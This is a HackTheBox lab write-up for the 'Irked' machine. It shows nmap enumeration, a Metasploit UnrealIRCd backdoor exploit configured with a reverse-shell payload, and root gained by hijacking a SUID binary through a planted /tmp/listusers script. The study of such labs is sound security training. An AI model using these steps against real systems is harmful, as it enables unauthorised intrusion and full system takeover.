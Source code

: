 ```yaml
---
title: "HackTheBox - Irked"
author: Nasrallah
description: ""
date: 2023-02-13 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, suid, metasploit]
img_path: /assets/img/hackthebox/machines/irked
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

![](0.png)

# **Description**

Hello hackers, I hope you are doing well. We are doing [Irked](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 -p- {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

- -p-: scan all ports


```terminal
Nmap scan report for 10.10.10.117                                                                                                                             
Host is up (0.15s latency).                                                                                                                                   
                                                                                                                                                              
PORT      STATE SERVICE VERSION                                                                                                                               
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)                                                                                          
| ssh-hostkey:                                                                                                                                                
|   1024 6a5df5bdcf8378b675319bdc79c5fdad (DSA)                                                                                                               
|   2048 752e66bfb93cccf77e848a8bf0810233 (RSA)                                                                                                               
|   256 c8a3a25e349ac49b9053f750bfea253b (ECDSA)                                                                                                              
|_  256 8d1b43c7d01a4c05cf82edc10163a20c (ED25519)                                                                                                            
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))                                                                                                        
|_http-server-header: Apache/2.4.10 (Debian)                                                                                                                  
|_http-title: Site doesn't have a title (text/html).                                                                                                          
111/tcp   open  rpcbind 2-4 (RPC #100000)                                                                                                                     
| rpcinfo:                                                                                                                                                    
|   program version    port/proto  service                                                                                                                    
|   100000  2,3,4        111/tcp   rpcbind                                                                                                                    
|   100000  2,3,4        111/udp   rpcbind                                                                                                                    
|   100000  3,4          111/tcp6  rpcbind                                                                                                                    
|   100000  3,4          111/udp6  rpcbind                                                                                                                    
|   100024  1          37467/tcp   status                                                                                                                     
|   100024  1          46655/udp6  status                                                                                                                     
|   100024  1          57678/tcp6  status                                                                                                                     
|_  100024  1          59290/udp   status                                                                                                                     
8067/tcp  open  irc     UnrealIRCd                                                                                                                            
65534/tcp open  irc     UnrealIRCd                                                                                                                            
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel 
```

We found a couple of open ports, 22/tcp running OpenSSH, 80/tcp running an Apache http web server, 111/tcp is rpcbind, and the last two are running `UnrealIRCd`.

## Web

Let's check the web page.

![](1.png)

We see an image and a note talking about `IRC`, probably a hint telling us where to look.

## Searchsploit

Let's see if `unrealircd` has any vulnerabilities.

```terminal
└──╼ $ searchsploit unrealircd
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                                | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                                                     | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                                                              | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                                                                   | windows/dos/27407.pl
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

There is a backdoor command execution exploit in Metasploit.

# **Foothold**

Let's start `msfconsole` and use `exploit/unix/irc/unreal_ircd_3281_backdoor`.

Let's set up the following options.

```terminal
[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> set rhosts 10.10.10.117
rhosts => 10.10.10.117
[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> set rport 8067
rport => 8067
[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> set payload cmd/unix/reverse
payload => cmd/unix/reverse
[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> set lhost tun0
lhost => tun0
```

Now let's run the exploit.

![](2.png)

Great, we got a shell.


# **Privilege Escalation**

Before starting enumeration, i uploaded my ssh public key to the target and sshed to it.

Next i run linpeas and got the following.

![](3.png)

We found an unknown suid binary called `viewuser`, let's see what it does.

```terminal
ircd@irked:~$ viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           Feb  4 01:48 (:0)
ircd     pts/0        Feb  4 02:33 (10.10.17.90)
sh: 1: /tmp/listusers: not found
```

The binary is trying to execute /tmp/listusers but the file is note there.

We can exploit that by creating `listusers` file that executes `/bin/bash`.

```terminal
ircd@irked:~$ echo '/bin/bash' > /tmp/listusers
ircd@irked:~$ chmod +x /tmp/listusers
ircd@irked:~$ viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           Feb  4 01:48 (:0)
ircd     pts/0        Feb  4 02:33 (10.10.17.90)
root@irked:~# id
uid=0(root) gid=1001(ircd) groups=1001(ircd)
root@irked:~#
```

We got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).